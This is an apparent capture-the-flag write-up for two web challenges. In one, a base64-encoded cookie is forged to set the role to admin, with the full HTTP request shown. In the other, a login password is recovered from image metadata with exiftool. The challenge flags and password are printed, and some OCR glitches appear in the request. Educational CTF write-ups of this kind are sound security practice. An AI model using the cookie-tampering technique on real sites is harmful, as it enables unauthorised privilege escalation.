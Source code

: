 # STS Cyber Challenge 2023 Write-up

## Web 

### Task - Myktybek  

We see that the data is transmitted via cookie in base64 format.

Try to change role to `admin` and send request.

    {"username":"Myktybek","email":"myktybek@moshnyi.bala","role":"admin"}

Encode it to Base64

    eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ==

Request:

    GET / HTTP/1.1
    Host: 172.17.0.1:8082
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,ima ge/avif,image/webp,image/apng, */*;q=0.8,application/signe d-exchange; v=b3;q=0.7
    Accept-Encoding: gzip, deflate 
    Accept-Language: en-US, en; q-0.9
    Cookie: user_data-
    eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ%3d%3d
    Connection: close

![image](https://github.com/user-attachments/assets/ee83fa8c-3ae7-4f00-b4f2-2fa144e546cb)

FLAG 

    STS{th1s_fl4g_1s_e4sy}

### Task - Entrance

We can see the authorization page and a picture in the background.

Download the image and check for meta data.

You can use `exiftool`

`exiftool filename.png`

![image](https://github.com/user-attachments/assets/946ab524-7221-4d4f-ab9c-1cc16189518a)

Password: `U2Qqw26nKfzt2FTTc4xKGp4M5Md3Ch`

You can login with this password and see the flag!
    
![UchihaItachi](https://github.com/user-attachments/assets/2720ac06-cf09-42db-9bef-6d0a9a7eaf11)

FLAG:

    STS{L0g1n3d_Successfull_001}

